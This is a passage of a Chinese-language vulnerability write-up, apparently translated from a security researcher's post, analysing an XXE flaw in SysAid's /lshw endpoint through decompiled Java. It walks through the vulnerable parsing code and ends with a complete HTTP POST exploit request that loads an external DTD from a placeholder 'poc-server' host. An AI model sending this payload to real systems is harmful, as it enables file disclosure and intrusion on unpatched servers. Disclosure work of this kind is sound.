 ```
1: public final boolean a(Reader reader, String str, String str2, String str3, String str4, String str5, String str6, String str7, HttpServletRequest httpServletRequest, ServletContext servletContext) {2: MessageDocument newInstance;3: MessageType addNewMessage;4: SoftwareType addNewSoftware;5: InventoryType inventory;6: MachineType addNewMachine;7: boolean z;8: BufferedReader bufferedReader;9: String str8;10: StringBuffer stringBuffer;11: int indexOf;12: try {13: newInstance = MessageDocument.Factory.newInstance();14: addNewMessage = newInstance.addNewMessage();15: addNewSoftware = addNewMessage.addNewBody().addNewInventory().addNewSoftware();16: this.z = addNewMessage.getBody().getInventory().addNewStorageDevices();17: inventory = addNewMessage.getBody().getInventory();18: addNewMachine = inventory.addNewMachine();19: this.y = addNewMachine.addNewMachineSMBIOS();20: this.D = inventory.addNewDisplay();21: z = false;22: 23: [..SNIP..]24: }25: } elseif (z) {26: if (readLine.startsWith("**********software-end**********")) {27: z = false;28: } else {29: String[] split = readLine.split("\\\\|\\\\|\\\\|");30: if (split != null && split.length >= 5) {31: addNewSoftware.addSoftwareProduct(split[0] + " - " + split[2] + SysaidConstants.DEFAULT_DOMAIN + split[1]);32: }33: }34: } elseif (z) {35: if (readLine.startsWith("**********partitions-end**********")) {36: z = false;37: } else {38: String[] split2 = readLine.split("[ \\\\t]+");39: int i = split2[0].length() > 0 ? 0 : 1;40: if (split2 != null && split2.length >= 4 && !split2[i + 0].equalsIgnoreCase("major")) {41: String str9 = split2[i + 3];42: if (str8 == null || !str9.startsWith(str8)) {43: str8 = str9;44: String str10 = "/dev/" + str9;45: StorageDeviceType addNewStorageDevice = this.z.addNewStorageDevice();46: addNewStorageDevice.setStorageLogicalName(str10);47: addNewStorageDevice.setStorageCapacity(a(split2[i + 2]) << 10);48: }49: }50: }51: }52: } elseif (readLine.startsWith("**********lshw-begin**********")) {53: z = true;54: } elseif (readLine.startsWith("**********meminfo-begin**********")) {55: z = true;56: } elseif (readLine.startsWith("**********cpuinfo-begin**********")) {57: z = true;58: } elseif (readLine.startsWith("**********software-begin**********")) {59: z = true;60: } elseif (readLine.startsWith("**********partitions-begin**********")) {61: z = true;62: } else {63: stringBuffer.append(readLine);64: stringBuffer.append('\\n');65: }66: IlientConf.logger.error("Error while parsing request", e);67: returnfalse;68: }69: InputSource inputSource = new InputSource(new StringReader(stringBuffer.toString()));70: SAXParser sAXParser = new SAXParser();71: sAXParser.setContentHandler(this);72: try {73: // XXE triggered here74: sAXParser.parse(inputSource);75: } catch (Exception e3) {76: IlientConf.logger.error("Error in SAXParser ", e3);77: }
```  
  
  
将此代码分解为我们感兴趣的操作：  
- 行 [69]：将接收到的数据包装在InputSource使用  
  
- 行 [70]：创建并配置一个新SAXParser实例。  
  
- 行 [71]：将当前类设置为解析器的类ContentHandler。  
  
- 行 [74]：解析用户提供的数据，触发 XXE。  
  
这个 XXE 漏洞的利用也很简单，只需要传递一些参数，例如  
- osVer  
  
- osCode  
  
- osKernel  
  
- 和其他..  
  
这些参数对于满足令人兴奋的使用if()条件是必要的，这些条件再次检查所述参数的存在。  
  
对于我们的第三个复杂XXE（complex complex complex），以下HTTP请求允许我们触发漏洞：  
  
```
POST/lshw?osVer=a&osCode=b&osKernel=c&agentVersion=e&serial=f HTTP/1.1Host: targetContent-Type: application/xmlContent-Length: 129<?xml version="1.0"?><!DOCTYPE foo [<!ENTITY % foo SYSTEM "http://poc-server/watchTowr.dtd">%foo;]>
```  
  